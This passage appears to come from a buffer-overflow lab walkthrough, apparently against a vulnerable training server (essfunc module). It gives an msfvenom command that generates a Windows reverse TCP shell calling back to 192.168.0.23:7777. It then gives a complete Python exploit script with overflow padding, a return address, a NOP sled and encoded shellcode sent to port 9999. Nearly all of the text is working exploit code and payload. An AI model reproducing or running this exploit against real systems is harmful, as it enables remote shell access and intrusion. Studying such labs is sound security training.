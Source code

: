 - breakpoint at essfunc.625014DF 
- now we can generate shellcode

**Since this would work, you can try generate some shellcode - use msfvenom to generate shellcode for windows.**

- ``msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.23 LPORT=7777 -b "\x00" -f c``

```shell
import socket
import sys

username = b"oskar"
message = b"A" * 2012 + b"\xdf\x14\x50\x62" + b"\x90" * 32
payload = (b"\xbd\x5c\x4a\x35\x2e\xd9\xcd\xd9\x74\x24\xf4\x5e\x33\xc9\xb1"
b"\x52\x31\x6e\x12\x03\x6e\x12\x83\xb2\xb6\xd7\xdb\xb6\xaf\x9a"
b"\x24\x46\x30\xfb\xad\xa3\x01\x3b\xc9\xa0\x32\x8b\x99\xe4\xbe"
b"\x60\xcf\x1c\x34\x04\xd8\x13\xfd\xa3\x3e\x1a\xfe\x98\x03\x3d"
b"\x7c\xe3\x57\x9d\xbd\x2c\xaa\xdc\xfa\x51\x47\x8c\x53\x1d\xfa"
b"\x20\xd7\x6b\xc7\xcb\xab\x7a\x4f\x28\x7b\x7c\x7e\xff\xf7\x27"
b"\xa0\xfe\xd4\x53\xe9\x18\x38\x59\xa3\x93\x8a\x15\x32\x75\xc3"
b"\xd6\x99\xb8\xeb\x24\xe3\xfd\xcc\xd6\x96\xf7\x2e\x6a\xa1\xcc"
b"\x4d\xb0\x24\xd6\xf6\x33\x9e\x32\x06\x97\x79\xb1\x04\x5c\x0d"
b"\x9d\x08\x63\xc2\x96\x35\xe8\xe5\x78\xbc\xaa\xc1\x5c\xe4\x69"
b"\x6b\xc5\x40\xdf\x94\x15\x2b\x80\x30\x5e\xc6\xd5\x48\x3d\x8f"
b"\x1a\x61\xbd\x4f\x35\xf2\xce\x7d\x9a\xa8\x58\xce\x53\x77\x9f"
b"\x31\x4e\xcf\x0f\xcc\x71\x30\x06\x0b\x25\x60\x30\xba\x46\xeb"
b"\xc0\x43\x93\xbc\x90\xeb\x4c\x7d\x40\x4c\x3d\x15\x8a\x43\x62"
b"\x05\xb5\x89\x0b\xac\x4c\x5a\xf4\x99\x4e\x8d\x9c\xdb\x4e\xaf"
b"\x3d\x55\xa8\xa5\xad\x33\x63\x52\x57\x1e\xff\xc3\x98\xb4\x7a"
b"\xc3\x13\x3b\x7b\x8a\xd3\x36\x6f\x7b\x14\x0d\xcd\x2a\x2b\xbb"
b"\x79\xb0\xbe\x20\x79\xbf\xa2\xfe\x2e\xe8\x15\xf7\xba\x04\x0f"
b"\xa1\xd8\xd4\xc9\x8a\x58\x03\x2a\x14\x61\xc6\x16\x32\x71\x1e"
b"\x96\x7e\x25\xce\xc1\x28\x93\xa8\xbb\x9a\x4d\x63\x17\x75\x19"
b"\xf2\x5b\x46\x5f\xfb\xb1\x30\xbf\x4a\x6c\x05\xc0\x63\xf8\x81"
b"\xb9\x99\x98\x6e\x10\x1a\xa8\x24\x38\x0b\x21\xe1\xa9\x09\x2c"
b"\x12\x04\x4d\x49\x91\xac\x2e\xae\x89\xc5\x2b\xea\x0d\x36\x46"
b"\x63\xf8\x38\xf5\x84\x29")

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',9999))
      s.recv(1024)
      s.recv(1024)
      s.send(username + b'\r\n')
      s.recv(1024)
      s.send(message + payload + b'\r\n')
      s.recv(1024)
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```
